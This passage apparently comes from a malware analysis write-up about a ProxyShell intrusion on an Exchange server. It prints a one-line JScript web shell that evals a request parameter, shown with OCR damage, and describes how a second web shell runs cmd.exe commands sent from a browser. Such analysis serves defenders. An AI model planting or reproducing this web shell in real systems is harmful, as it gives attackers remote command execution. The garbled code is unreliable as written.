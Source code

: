 ```python
script language = 'JScript' runat = 'server' >function Page_Load() {    eval(Request['exec_code'], 'un.comfe');    Response.End;.}< /script>
```

![Figure 5: The PST File with plain JavaScript code](https://raw.githubusercontent.com/darksys0x/darksys0x.github.io/master/_posts/imgs/proxyshell/Untitled_4.png)

Figure 5: The PST File with plain JavaScript code

---

# **Webshell demonstration Functionality**

The webshell file “gg” was uploaded on Exchange server which contains base64 encoded code. However, I analyzed the “gg” file. The following source code reveals the entire functionality:

When the webshell is accessed using a browser, two textboxes will be displayed along with a button. One textbox is for the path, usually it is “cmd.exe”, the other textbox is for the arguments that will be passed to the “cmd.exe”. After pressing the button, it will execute the function “xYjIZpmdmjiWw” on server. This will create a new process for command prompt and execute the command. The result of the command will be sent to the client the label with id “otqFkGShCVEuP” will show the result indicating whether the command was successfully executed or not.
